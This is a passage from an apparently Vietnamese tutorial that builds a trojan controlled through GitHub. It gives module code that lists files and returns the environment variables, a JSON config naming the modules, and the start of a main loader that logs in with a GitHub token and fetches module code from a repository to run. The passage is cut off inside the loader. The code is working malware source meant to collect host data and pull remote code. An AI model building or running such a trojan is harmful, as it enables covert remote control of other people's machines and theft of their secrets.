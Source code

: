 ### Module
```python
import os

def run(**args):
    print("[*] In dirlister module.")
    files = os.listdir('.')
    return str(files)
```
{: file="dirlister.py"}

```python
import os

def run(**args):
    print("[*] In enviroment module.")
    return os.environ
```
{: file="environment.py"}

Ở 2 module này đều có phương thức `run` để tiện cho việc gọi hàm, trả lại dữ liệu sau khi thực thi.
Có thể thêm các module khác tùy ý.

### Config
```json
[
    {
        "module": "dirlister"
    },
    {
        "module": "environment"
    }
]
```
{: file="abc.json"}

Config chứa tên các module cần chạy.
- Sau khi tạo được modules và config, up lên Github repository. 
- `git_trojan.py` là file chạy chính của trojan, nó sẽ lấy danh sách các module cần chạy từ **config** và import các module từ **modules**.

### Main
```python
import base64
import github3
import github3.repos
import importlib.util
import json
import random
import sys
import threading
import time
from datetime import datetime
from github3.repos.contents import Contents

def github_connect(token_path='path_to_personal_access_token_file', owner='owner', repo='repo_name') -> github3.repos.Repository:
    """Connects to the GitHub repository."""
    with open(token_path) as f:
        token = f.read().strip()
    return github3.login(token=token).repository(owner, repo)

def get_file_content(dir_name, module_name, repo: github3.repos.Repository) -> bytes:
    """Fetch file content from GitHub repository."""
    file: Contents = repo.file_contents(f"{dir_name}/{module_name}")
```